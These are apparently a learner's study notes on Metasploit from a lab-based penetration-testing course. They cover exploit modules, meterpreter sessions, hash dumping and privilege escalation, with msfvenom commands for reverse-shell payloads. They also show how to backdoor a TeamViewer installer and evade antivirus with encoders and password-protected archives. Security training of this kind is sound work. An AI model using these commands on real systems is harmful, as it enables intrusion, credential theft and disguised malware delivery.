


Download MSF cheatsheet [here](https://academy.hackthebox.com/module/cheatsheet/39)

Knowing our tools inside and out is important to keep our tracks covered. Many tools are unpredictable. They can leave traces of activity on the target system , and some may leave our attacker platform with open gates.

`Metasploit Project` is a modular penetration testing platform that enables you to write, test, and execute code.



We will be using Metasploit for:
1. Enumeration
2. Preparation
3. Exploitation
4. Privilege Escalation
5. Post-Exploitation


## Modules
`modules` are prepared scripts with a specific purpose and corresponding functions that have already been developed and tested in the wild.

Select a module
```bash
<No.> <type>/<os>/<service>/<name>
```

```bash
794   exploit/windows/ftp/scriptftp_list
```

|**Type**|**Description**|
|---|---|
|`Auxiliary`|Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality.|
|`Encoders`|Ensure that payloads are intact to their destination.|
|`Exploits`|Defined as modules that exploit a vulnerability that will allow for the payload delivery.|
|`NOPs`|(No Operation code) Keep the payload sizes consistent across exploit attempts.|
|`Payloads`|Code runs remotely and calls back to the attacker machine to establish a connection (or shell).|
|`Plugins`|Additional scripts can be integrated within an assessment with `msfconsole` and coexist.|
|`Post`|Wide array of modules to gather information, pivot deeper, etc.|

Note that when selecting a module to use for payload delivery, the `use <no.>` command can only be used with the following modules that can be used as `initiators` (or interactable modules):

| **Type**    | **Description**                                                                                |
| ----------- | ---------------------------------------------------------------------------------------------- |
| `Auxiliary` | Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality. |
| `Exploits`  | Defined as modules that exploit a vulnerability that will allow for the payload delivery.      |
| `Post`      | Wide array of modules to gather information, pivot deeper, etc.                                |
Searching for modules
```bash
search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

Using modules
```bash
<SNIP>

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  exploit/windows/smb/ms17_010_psexec   2017-03-14       normal  Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   1  auxiliary/admin/smb/ms17_010_command  2017-03-14       normal  No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   
   
msf6 > use 0
msf6 exploit(windows/smb/ms17_010_psexec) > options
```

Specify target
```bash
set RHOSTS 10.10.10.40
```

`setg` - set permanent options until restart

Setting LHOST: set to own IP
```bash
setg LHOST 10.10.14.15
```

Execute exploit
```bash
run
```

**SMB** service is a network protocol that lets computers share files, printers and other resources.

1. `nmap` the target
2. SMB service is running on port 445
3. good habit to **always run auxiliary scanners before exploits**
> [!tip]- 
> common sense to **verify** a vulnerability exists before running the exploit
4. `search ms17_010` for eternal romance
5. select exploit (because we want to get access to shell)
6. set RHOST, LHOST
7. execute `run`
8. type `shell`
9. `cd C:\Users\Administrator\Desktop`
10. `type flag.txt`
## Targets
`show targets` **within exploit module** will display all available vulnerable targets for a specific exploit

`show targets` outside exploit module will let us know that we need to select an exploit module first

Selecting a target
```bash
set target 11
```

To identify a target correct, we need to:
- obtain a copy of the target binaries
- use `msfpescan` to locate a suitable return address
## Payloads
A payload is Metasploit refers to a module that aids the exploit module in returning a **shell** to the attacker

Default payload: `reverse_tcp_shell`

A `Single` payload contains the exploit and the entire shellcode for the selected task.
- more stable cuz contains everything all-in-one
- gets us a result immediately after running

A `Stager` payload works with Stage payload.
- waits on attacker machine
- establish connection to the victim host

A `Stage` is a payload component that are downloaded by a stager's modules. Payload stages automatically use middle stagers:
- a single `recv()` fails with large payloads
- the stager receives the middle stager
- the middle stager then performs a full download
- also better for `RWX`

> [!info] `Stage0` of a staged payload represents the initial shellcode sent over the network to the target machine's vulnerable service

The `Meterpreter` payload is a specific type of multi-faceted payload that uses `DLL injection` to ensure the connection to the victim host is stable.
- resides completely in the memory of the remote host
- leaves no traces on the hard drive
- difficult to detect with conventional forensic techniques
- scripts and plugins can be loaded and unloaded dynamically as required

> [!tip]+ Selecting payloads
> - if you want access persistence, search for **meterpreter** payloads
> 	- [GentilKiwi's Mimikatz Plugin](https://github.com/gentilkiwi/mimikatz)
> 	- `grep meterpreter grep reverse_tcp show payloads`
> 	- show count: `grep -c meterpreter show payloads`
> - `set payload <no.>`

A **channel** in a meterpreter represents the connection between our device and the target host, which has been established in a reverse TCP connection using a Meterpreter Stager and Stage


1. Apache Druid 0.20.0 is vulnerable to **Remote Command Execution** (RCE)
	- [check this out](https://www.rapid7.com/db/modules/exploit/linux/http/apache_druid_js_rce/)
2. `search apache druid`
3. `use exploit/linux/http/apache_druid_js_rce`
4. set RHOST, LHOST
5. run
6. `search -f flag.txt`
7. `cat <file>`

## Encoders
Encoders make payloads compatible with different processor architectures and help with antivirus evasion.
- remove hexadecimal opcodes known as bad characters
- architectures include: `x64`, `x86`, `sparc`, `ppc`, `mips`

Payload with encoding
```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

Generating payloads
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```

Analyse payloads (require free registration on VirusTotal)
```bash
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```
## Databases
keep track of your results

ensure PostgreSQL server is up
```bash
sudo service postgresql status
```

start server
```bash
sudo systemctl start postgresql
```

initiate database
```bash
sudo msfdb init
```

connect to database
```bash
sudo msfdb run
```

organise workspace within msfconsole
```bash
workspace -a target1
```

importing scan results
```bash
db_import Target.xml
```

using nmap straight from msfconsole
```bash
db_nmap -sV -sS 10.10.10.8
```

data backup
```bash
db_export -h
```

hosts: database table automatically populated with the host addresses, hostnames and other information
```bash
hosts -h
```

`services`: table with descriptions and information on services discovered during scans or interactions

`creds`: visualise the credentials gathered

`loot`: list of owned services and users
- hash dumps, passwd, etc.
## Plugins and Mixins
default plugins directory
```bash
ls /usr/share/metasploit-framework/plugins
```

load plugins
```bash
load plugin1
```

**Mixins** are classes that act as methods for use by other classes without having to be the parent class of those other classes.
## Sessions and Jobs
view active sessions
```bash
sessions
```

interacting with a session
```bash
sessions -i [no.]
```

run exploit as a job
```bash
exploit -j
```

`-l` - list all running jobs
`-k` kill all running jobs
```bash
jobs -l

jobs -k
```

1. nmap target
2. `search linux/http`
	1. found an "elfinder" vulnerability
3. set RHOST, LHOST
4. run
5. `getuid`
6. `sysinfo` - if your meterpreter architecture does not match the architecture of target machine, rerun the exploit using the correct payload so that they match.
7. `shell` and check for sudo version with `sudo -V`
8. `background` the current meterpreter session
9. `use post/multi/recon/local_exploit_suggester`, `run` to find the suitable exploits
10. use `exploit/linux/local/sudo_baron_samedit`
11. configure all options
12. `run`. another session should be spawned
13. `whoami` to find out if you are root yet
## Meterpreter
`DLL injection` is used to ensure the connection to the victim host is stable and difficult to detect.

- The target executes initial stager
- stager loads the DLL prefixed with Reflective. Reflective stub handles the loading/injection of the DLL
- meterpreter core initialises and establishes an AES-encrypted link over the socket, and sends a GET. metasploit receives the GET and configures the client
- meterpreter loads extensions

no idea what this is for
```bash
lsa_dump_sam
```

1. `nmap` the target
2. the website runs at port 5000, fortilogger
3. `search fortilogger`
4. run exploit, `getuid`
5. `hashdump`
## Writing and Importing Modules

> [!success]+ Finding and downloading modules
> - **ExploitDB:** Search the database using the tag **"Metasploit Framework (MSF)"** to find scripts pre-formatted for Metasploit
> - **Searchsploit:** Use the command line tool to find Ruby scripts (`.rb`), filtering out incompatible Python scripts.
>
>```bash
>searchsploit -t Nagios3 --exclude=".py"
>```

> [!tldr]+ Directory Structure & Naming
> - **Locations:**
>   - **System:** `/usr/share/metasploit-framework/modules/`
>   - **User (Local):** `~/.msf4/modules/` (You may need to `mkdir` subfolders to match the system structure, e.g., `exploits/linux/http/`)
> - **Naming Convention:** Use **snake_case** only. Alphanumeric and underscores are allowed; hyphens are prohibited.
>   - _Good:_ `nagios3_command_injection.rb`
>   - _Bad:_ `nagios3-command-injection.rb`

> [!tip]+ Loading External Modules
> - **Launch with Path:** Start the console pointing to your custom directory.
>
>```bash
>msfconsole -m /usr/share/metasploit-framework/modules
>```
>
> - **Runtime Loading:** Use the `loadpath` command inside the console.
> - **Reloading:** If you add a file to the default directories while the console is open, run `reload_all` to refresh the database.

> [!info]+ Porting and Writing Modules
> **The Boilerplate Strategy**
>
> - Do not start from scratch. Find an existing module similar to your goal (e.g., another CMS exploit) and copy it as a template.
>
>```shell
>cp /usr/share/.../existing_module.rb /usr/share/.../new_custom_module.rb
>```
>
> **Required Code Sections**
>
> - **Mixins:** Include necessary libraries at the top of the file.
>
>```ruby
>class MetasploitModule < Msf::Exploit::Remote
>  include Msf::Exploit::Remote::HttpClient  # For Web interactions
>  include Msf::Exploit::PhpEXE              # For PHP Payload generation
>  include Msf::Auxiliary::Report            # For DB reporting
>```
>
> - **Metadata (Initialize):** Define the module's identity.
>
>```ruby
>def initialize(info={})
>  super(update_info(info,
>    'Name'           => "Module Name Here",
>    'Description'    => %q{ Detailed description of the exploit. },
>    'License'        => MSF_LICENSE,
>    'Author'         => [ 'Your Name' ],
>    'Platform'       => 'php',
>    'Targets'        => [ [ 'Target Software v1.0', {} ] ],
>    'DefaultTarget'  => 0
>  ))
>```
>
> - **Options:** Register user inputs using `OptString` or `OptPath` (for files).
>
>```ruby
>register_options(
>  [
>    OptString.new('TARGETURI', [true, 'The base path', '/']),
>    OptPath.new('PASSWORDS', [ true, 'Wordlist path',
>      File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])
>  ])
>```
>
> - **Exploit Logic:** Write the functions to execute the attack, such as handling CSRF tokens or brute-forcing.
>
>```ruby
>def get_csrf(client, login_url)
>  res = client.get(login_url)
>  # Regex to scrape the token
>  csrf_token = /name="tokenCSRF".+?value="(.+?)"/.match(res.body).captures
>end
>```
## Introduction to MSFVenom

- **Combination Tool:** MSFVenom is the successor to MSFPayload and MSFEncode, combining payload generation and encoding into a single tool.
- **Purpose:** It allows penetration testers to craft customizable payloads for specific architectures and Operating Systems while "cleaning up" shellcode (removing bad characters) to ensure stability.
- **AV Evasion:** While it creates hard-to-detect payloads, modern heuristic analysis and deep packet inspection make evasion more difficult than in the past.

> [!tip] Creating and Deploying Payloads (Scenario)
> - **Reconnaissance:** Scanning a target reveals an IIS web server linked to an FTP server allowing anonymous login. The presence of an `aspnet_client` directory indicates the server can run `.aspx` files.
> - **Generation:** Use MSFVenom to generate a reverse TCP shell in `.aspx` format:
> ```bash
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5
> LPORT=1337 -f aspx > reverse_shell.aspx
> ```
> - **Listener Setup:** Before triggering the payload, start a listener in `msfconsole` to catch the connection:
> 
> ```bash
> use multi/handler
> set LHOST 10.10.14.5
> set LPORT 1337
> run
> ```
> - **Execution:** Upload the file via FTP, then navigate to the file's URL in a browser (`http://10.10.10.5/reverse_shell.aspx`) to trigger the payload and open a session.
## Firewall and IDS/IPS evasion
| **Security Policy**                         | **Description**                                                                                                                                                                                                                                                                                                                   |
| ------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Signature-based Detection`                 | The operation of packets in the network and comparison with pre-built and pre-ordained attack patterns known as signatures. Any 100% match against these signatures will generate alarms.                                                                                                                                         |
| `Heuristic / Statistical Anomaly Detection` | Behavioral comparison against an established baseline included modus-operandi signatures for known APTs (Advanced Persistent Threats). The baseline will identify the norm for the network and what protocols are commonly used. Any deviation from the maximum threshold will generate alarms.                                   |
| `Stateful Protocol Analysis Detection`      | Recognizing the divergence of protocols stated by event comparison using pre-built profiles of generally accepted definitions of non-malicious activity.                                                                                                                                                                          |
| `Live-monitoring and Alerting (SOC-based)`  | A team of analysts in a dedicated, in-house, or leased SOC (Security Operations Center) use live-feed software to monitor network activity and intermediate alarming systems for any potential threats, either deciding themselves if the threat should be actioned upon or letting the automated mechanisms take action instead. |
`msfvenom` offers the option of using executable templates. this allows us to use some pre-set templates for executable file, inject our payload into them.
- embed the shellcode into any installer, package, or program
- hide the shellcode deep within the legitimate code of the actual product

```bash
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```

> [!quote]- what happens when the user launches app
> For the most part, when a target launches a backdoored executable, nothing will appear to happen, which can raise suspicions in some cases. To improve our chances, we need to trigger the continuation of the normal execution of the launched application while pulling the payload in a separate thread from the main application. We do so with the `-k` flag as it appears above. However, even with the `-k` flag running, the target will only notice the running backdoor if they launch the backdoored executable template from a CLI environment. If they do so, a separate window will pop up with the payload, which will not close until we finish running the payload session interaction on the target.

archiving a piece of information such as a file, folder, script, executable, picture, or document and placing a password on the archive bypasses a lot of common anti-virus signatures today
```bash
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5
```

use virus-total to get a detection baseline
```bash
msf-virustotal -k <API key> -f test.js 
```

archive it 2 more times with added password + remove extension
- virustotal shows that no antivirus detected the malware

`packer` refers to the result of an executable compression process where the payload is packed together with an executable program and with the decompression of code in one single file
- the decompression code returns the backdoored executable to its og state

learn more about [packer](https://jon.oberheide.org/files/woot09-polypack.pdf)

learn more about exploit coding in the [metasploit guide](https://nostarch.com/metasploit)